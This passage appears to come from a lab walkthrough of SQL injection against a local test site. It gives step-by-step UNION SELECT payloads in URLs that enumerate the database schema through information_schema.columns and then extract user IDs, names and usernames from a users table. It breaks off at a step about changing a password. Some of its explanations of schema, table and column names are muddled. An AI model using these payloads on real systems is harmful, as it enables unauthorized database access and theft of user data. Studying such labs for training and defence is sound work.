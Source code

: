http://192.168.28.181/pick.php?product=7 union select table_schema, column_name, table_name FROM information_schema.columns

Step 5: Scroll to the bottom of the page

![Alt Text](images/image_19.png)

Tabel_schema = database name = siteusers

column_Name = column name = users,customer etc

table_Name = table name = username, user-id, id etc

Right click to duplicate the tab

Step 6: to get the information on user_id, username and username from the database use the following union statement

http://192.168.28.181/pick.php?product= Union SELECT user_id, name, username FROM siteusers.users

Here, replace table_schema, name and column name with the columns on the user table

Syntax for union

<URL>/uniondemo.php?Selection=2 UNION SELECT table_name,1,column_name FROM information_schema.columns

![Alt Text](images/image_18.png)

Change the password to ROT13:
